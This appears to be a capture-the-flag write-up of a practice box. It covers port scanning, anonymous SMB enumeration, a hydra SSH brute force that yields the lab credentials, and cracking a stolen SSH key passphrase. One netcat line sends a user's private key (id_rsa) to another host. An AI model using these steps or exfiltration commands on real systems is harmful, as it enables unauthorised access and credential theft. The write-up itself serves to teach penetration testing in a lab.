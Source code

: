 ![Screenshot (160)](https://github.com/user-attachments/assets/26e78136-c3d6-4d4a-9446-37d2a0ae717f)

Begin with a port scan using nmap:
![Screenshot (161)](https://github.com/user-attachments/assets/ff43ee1e-b6a1-4eb7-9cfe-2a2ad6d1fdda)

- -sS - Half open scan

- -sV - detect service version

- --min-rate= minimum rate at which packet is sent

- -p- -  Scan all 65535 ports

  We have 6 ports open:
  ssh(22), http(8080), http(80), smb(139 & 445), ajp13(8009)

  We begin by visit the http services running on port 80, then on port 8080 to see what has been hosted.

  Visiting port 80, "ip address:80" we see this message:
  ![Screenshot (162)](https://github.com/user-attachments/assets/cefeaf7e-ffb3-4267-a77f-9204fd6cd90c)

After viewing the page source, we found nothing useful.


Visiting port 8080 with "ip address:8080". We can see it's hosting an apache server and we can se the version apache tomcat/ 9.0.7:
![Screenshot (163)](https://github.com/user-attachments/assets/c42dd0a4-bfdd-490d-81d5-887ab54c6b35)

Using gobuster to scan for hidden files and directories, a directory named /development was found, containing two files dev.txt and j.txt.
![Screenshot (166)](https://github.com/user-attachments/assets/ddb430c3-e483-4732-9f98-8f6f2383866f)

![Screenshot (164)](https://github.com/user-attachments/assets/8d3a248c-8ed4-4467-8711-e1259e8d96f5)
![Screenshot (165)](https://github.com/user-attachments/assets/5007f095-b37a-46df-9bf8-5654ce419be5)

By reading both files, we have a hint that smb and apache has been configured, and a warning telling the user that the password hashes stored in /etc/shadow were easily cracked and should be changed. Good!

Using gobuster on port 8080
![Screenshot (167)](https://github.com/user-attachments/assets/2fc27be3-05f7-4305-98cc-3dc7f64f82fb)

Nothing much to be done there.

Since we realized that the system runs a smb server, we can target that.

Firstly, we can use a tool called enum4linux to gather information about the smb server:
![Screenshot (168)](https://github.com/user-attachments/assets/b0696948-3b54-4304-932d-339523b1500e)
- a - For all information

We can also see that it has two shares hosted, which is the <b> Anonymous & IPC$</b>.

Anoymous is a disk share and we would like to take a look at that. 

A common misconfiguration in access a share is enabling anonymous access. So we can try to access the share without entering a password.

![Screenshot (169)](https://github.com/user-attachments/assets/90fd6723-1837-459d-81e6-11aa10b1548f)

We can use "smbclient" to access and list shares.

![Screenshot (170)](https://github.com/user-attachments/assets/e6109588-81c1-4fcc-b0f7-a0f874288d35)

<b> smbclient -L //ip address/share -U anonymous -p 445</b>

- - L - To list shares

- //ip address/share
  
- - U - specify username
  
-  - p - specify port number
 
  We can see have access to the share. Good! we can use ls to list the files and we found a file named staff.txt.

  Use command "get staff.txt" to get the file. Then read the content of the file.

  After that, we really can't find anything useful in the share, so we can exit out of it.

While performing enumeration using enum4linux, we found two possible usernamees:
![Screenshot (171)](https://github.com/user-attachments/assets/bd9dc699-50e6-4502-8b3d-f6828295eb08)

Jan and kay.

We can try these usernames against the ssh server running on port 22. Firstly, I will add those users to a text file and name it users.txt, then try to bruteforce the account using hydra to find the password:

![Screenshot (172)](https://github.com/user-attachments/assets/a44b1e9b-bd2b-454d-a0a3-f18a861293f2)
- -t - number of threads(fast)
-  - L - username file
-  - P - password file
-  - u - try for every user
- - f - stop on first success

![Screenshot (173)](https://github.com/user-attachments/assets/51902548-9294-42cb-ad4f-a3a6726d07a7)
We found the password for jan to be <b>armando</b>

We can use the credentials to login to the ssh server username being <b>jan</b> and password being <b>armando</b>.

Login via ssh and we should be in.
![Screenshot (174)](https://github.com/user-attachments/assets/1ddae042-dd22-47d7-b41d-14f9eaacb877)

<h2>Escalating privileges</h2>

we can change directory to /home/kay and list the files there using ls -al
![Screenshot (177)](https://github.com/user-attachments/assets/75c348f3-68ce-4b81-b8db-66d8d06fa15b)

we can see .ssh directory present which contains ssh keys.

copy content of id_rsa which is the private key or transfer the file using netcat(nc. To use nc, we need to open up another terminal, then login to jan again to have two terminals.

In jan's home directory, use "nc -lvp 2020 > id_rsa" to listen on a port for data transfer:
![Screenshot (179)](https://github.com/user-attachments/assets/1d11be83-cd36-49c5-86a7-182a651cf3ae)

We cant even create a file in our directory using touch, but we can stylishly use <b><vim/b> to create a file, we type in:

"vim filename" to edit the file, then write a random text and save with <b>:wq</b>
![Screenshot (180)](https://github.com/user-attachments/assets/b9a20fa4-caa1-4eb9-82e3-cbdd4fc572bf)


While in kay's home directory, within the .ssh directory, we will transfer the id_rsa file:
![Screenshot (181)](https://github.com/user-attachments/assets/c233ece3-f43f-4b9f-bfcd-22397ae8fdb3)

"nc -w 2 10.10.88.66 2020 < id_rsa"

-w for wait time(2 seconds).

we received the file:
![Screenshot (182)](https://github.com/user-attachments/assets/0e5661e2-620f-4a3d-b54a-f45aa321bfc6)

we can use "cat" to read the id_rsa file and we see the private key
![Screenshot (183)](https://github.com/user-attachments/assets/99e3ee72-10c8-4c35-9f46-44a52abf18c9)

Now that we have the key, we can login with it, but if we try to use the ssh private key to login, we get an error:
![Screenshot (189)](https://github.com/user-attachments/assets/e49f57af-40bf-4b9e-a958-09577ca2a1cc)
Asking us to provide the password for the key which we clearly don't have. 

If we also read the content of the private key, we can see it is protected:
![Screenshot (190)](https://github.com/user-attachments/assets/8b603d70-0787-4d49-8faa-32bc0fa87fc3)

We can crack the key using johnTheRipper which is a password cracking tool.

I'll transfer the file or copy the content of the key to my own machine for more efficiency.

Using <b>ssh2john</b> to convert a ssh key to a format compatible with john to crack the key and saving it to a new file:
![Screenshot (192)](https://github.com/user-attachments/assets/a9c7bfcd-908b-47e2-bae1-14ab347d1978)

Crack the key:
![Screenshot (193)](https://github.com/user-attachments/assets/cd3a2ba0-a898-417c-bb77-2bc6d3bac6af)

And we can see the password is "beeswax". Next is to login as kay again with the private key and when it requests for passphrase, we enter the one we cracked:

Before that, change the permissions of the file using "chmod 700 id_rsa"
![Screenshot (194)](https://github.com/user-attachments/assets/a46f13a8-c030-4dc6-9db6-73fa2a393972)

Now that we are in, we can read the content of the pass.bak file and we get our flag

<h2>Happy Hacking!</h2>




